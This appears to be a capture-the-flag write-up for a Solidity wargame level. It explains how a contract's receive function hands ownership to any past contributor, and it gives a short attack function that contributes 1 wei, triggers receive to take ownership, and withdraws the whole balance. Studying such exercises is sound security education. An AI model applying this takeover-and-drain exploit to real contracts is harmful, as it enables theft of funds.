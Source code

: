 # Requirements

- Claim ownership of the contract
- Reduce its balance to 0

# Attack explanation

To claim ownership, we need to search places where the owner is set and we could exploit some vulnerability. Receive function is ideal for this:

```
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender; // HERE!!
}
```

For being able to trigger receive function, we will need to contribute with some eth to the contract. We will need to call contribute function with at least 1 wei.

```
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```

Once we've done our contribution, we will be able to trigger receive function, becoming owners of the contract. When this happens, we will be able to withdraw all funds from the contract, calling withdraw function.

```
function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
}
```

# Attack function

We could solve the challenge by using the following attack function:

```
function attack() public payable {
    // Contribute first time so we can use receive later.
    require(msg.value >= 2 wei, "Need to send at least 2 wei.");
    vulnerableScAddress.call{value: 1 wei}(
        abi.encodeWithSignature("contribute()")
    );

    // Trigger receive vulnerability to claim ownership.
    vulnerableScAddress.call{value: 1 wei}("");

    // Now that we are owners, withdraw all funds.
    vulnerableScAddress.call(abi.encodeWithSignature("withdraw()"));
}
```
